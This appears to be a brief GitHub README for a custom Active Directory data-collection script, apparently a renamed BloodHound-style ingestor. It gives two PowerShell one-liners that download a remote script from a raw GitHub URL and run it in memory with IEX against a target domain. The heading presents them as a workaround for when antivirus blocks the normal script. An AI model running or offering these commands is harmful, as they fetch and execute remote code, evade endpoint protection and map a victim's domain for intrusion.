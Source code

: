 ## Sometimes AV will block the normal script, just try this command
### Run this script with

```
iex(new-object net.webclient).downloadstring("https://raw.githubusercontent.com/f3ci/custom-ingestor/master/2.ps1");lol -CollectionMethod All -Domain target.com
```
OR
```
$a = [System.Net.WebRequest]::Create('https://raw.githubusercontent.com/f3ci/custom-ingestor/master/2.ps1');$b=$a.GetResponse();$c=$b.GetResponseStream();$d=[System.IO.StreamReader]::new($c);$content=$d.ReadToEnd();IEX($content);lol -CollectionMethod All -Domain target.com
```
